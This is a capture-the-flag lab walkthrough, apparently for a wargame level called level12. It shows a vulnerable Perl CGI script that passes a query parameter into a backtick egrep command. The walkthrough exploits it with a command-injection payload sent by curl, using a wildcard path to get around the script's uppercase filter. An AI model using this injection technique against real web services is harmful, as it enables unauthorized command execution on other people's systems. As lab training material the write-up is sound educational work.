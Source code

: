 # Level12
## Step by step
### 1. Access the `level12` Home Directory
  ```bash
  > ls
  -rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
  ```

---
### 2. Understanding the `level12` Program

The `level12.pl` file contains a Perl script that listens on `localhost:4646` and takes two query strings: `x` and `y`.
  ```bash
  > cat level12.pl 
  #!/usr/bin/env perl
  # localhost:4646
  use CGI qw{param};
  print "Content-type: text/html\n\n";
  
  sub t {
    $nn = $_[1];
    $xx = $_[0];
    $xx =~ tr/a-z/A-Z/; 
    $xx =~ s/\s.*//;
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    foreach $line (@output) {
        ($f, $s) = split(/:/, $line);
        if($s =~ $nn) {
            return 1;
        }
    }
    return 0;
  }
  
  sub n {
    if($_[0] == 1) {
        print("..");
    } else {
        print(".");
    }    
  }
  
  n(t(param("x"), param("y")));
  ```
This script performs some manipulation and executes a command using egrep to search /tmp/xd

---
### 3. Exploiting the Script

The goal is to execute a command via egrep within this script.
  ```bash
  > cat <<hey >/tmp/TEST
  > #!/bin/bash
  > getflag > /tmp/flag
  > hey

  > chmod +x /tmp/TEST

  > curl localhost:4646?x='$(/*/test)'

  > cat /tmp/flag
  Check flag.Here is your token : XXX
  ```
